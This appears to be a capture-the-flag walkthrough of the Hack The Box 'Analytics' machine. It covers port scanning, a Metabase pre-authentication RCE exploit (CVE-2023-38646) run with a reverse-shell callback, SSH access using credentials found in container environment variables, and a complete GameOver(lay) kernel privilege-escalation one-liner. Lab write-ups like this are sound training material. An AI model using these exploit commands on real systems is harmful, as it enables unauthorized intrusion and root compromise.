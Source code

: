 ```yaml
---
title: Analytics
published: true
layout: post
---
```


<br />

---------------
Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication Remote Code Execution ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to GameOverlay, which is leveraged to obtain root privileges.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/nPaZz_MxZG0?si=NQM9t_0XH6Z5GIgb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.233 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Analytics/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Analytics/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx 1.18.0**

<br />

We can also see a **hostname**, so we will add it to our ***/etc/hosts* file**:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee --append /etc/hosts
```

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine's foothold is very **easy and straightforward**, however we will have to make **assumptions**.

<br />

Initial enumeration of the website revealed a login panel, which is located under a subdomain, ***data.analytical.htb***, we will add it to our /etc/hosts file:
```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee --append /etc/hosts
```

<br />

By visiting the login website, we will discover a Metabase instance:

![](/assets/Analytics/3.png)
<br />
<br />
<br />

After trying some NoSQL injection, I **searched for an exploit** for this software, and find one that works:
```bash
searchsploit Metabase
```
![](/assets/Analytics/4.png)
<br />
<br />
<br />

This exploit leverages **CVE-2023-38646**, which essentially require  two HTTP requests to be exploited:
+ /api/session/properties
+ /api/setup/validate

<br />

The first one allows us to get a **setup token**, and the second one sends  a **payload in JSON format that executes commands**.

<br />

We just have to execute it to get a **webshell**:
```bash
python3 51797.py -u http://data.analytical.htb --lhost 10.10.16.10 --lport 4444 --sport 55555
```
![](/assets/Analytics/5.png)
<br />
<br />
<br />

However, after some enumeration, we can see that **we are in a container**, this is due to the existence of a ***/.dockerenv* file** and the **hostname**:

```bash
hostname
ls -la /.dockerven
```
![](/assets/Analytics/6.png)
<br />
<br />
<br />

Following with our enumeration, we can discover some **credentials** in the **environmental variables**:
```bash
printenv
```
![](/assets/Analytics/7.png)
<br />
<br />
<br />

With this in mind an no *metalytics* user in this container, we can try to connect through **SSH** and **print the user flag**:
```bash
ssh metalytics@analytical.htb
```
![](/assets/Analytics/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation is simple, but we have to take a deep look into **version numbers**.

<br />

Enumerating Linux we discovered the kernel version:

```bash
uname -r
```

![](/assets/Analytics/9.png)
<br />
<br />
<br />

Searching for this version number revealed an [exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) created by g1vi called **Game Over(lay)** that leverages **CVE-2023-2640** and **CVE-2023-32629**:

![](/assets/Analytics/10.png)

This exploit is actually a **one-liner** that we can execute to **gain root privileges** and **print the flag**:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
![](/assets/Analytics/11.png)
<br />
<br />
<br />
